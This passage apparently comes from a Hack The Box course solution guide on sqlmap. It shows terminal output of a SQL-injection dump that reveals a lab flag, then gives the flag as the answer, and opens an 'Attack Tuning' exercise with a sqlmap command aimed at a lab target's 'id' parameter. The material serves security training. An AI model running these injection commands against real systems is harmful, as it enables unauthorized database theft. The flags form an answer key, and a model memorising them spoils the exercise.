 ```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -r request.txt --batch --dump

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.8#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 18:07:45 /2022-09-29/

<SNIP>

Database: testdb
Table: flag4
[1 entry]
+----+---------------------------------+
| id | content                         |
+----+---------------------------------+
| 1  | HTB{j450n_v00rh335_53nd5_6r475} |
+----+---------------------------------+

<SNIP>
```

Answer: `HTB{j450n_v00rh335_53nd5_6r475}`

# Attack Tuning

## Question 1

### "What's the contents of table flag5? (Case #5)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #5" to notice that they need to exploit the `GET` parameter `id`:

![[HTB Solutions/CBBH/z. images/a6cd9b3b8a7e20f6cbed15381209e513_MD5.jpg]]

Thus, the `sqlmap` command will be as follows (`-T flag5` specifies the table to be dumped, instead of all the tables):

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case5.php?id=*' --level 5 --risk 3 -T flag5 --batch --dump
```
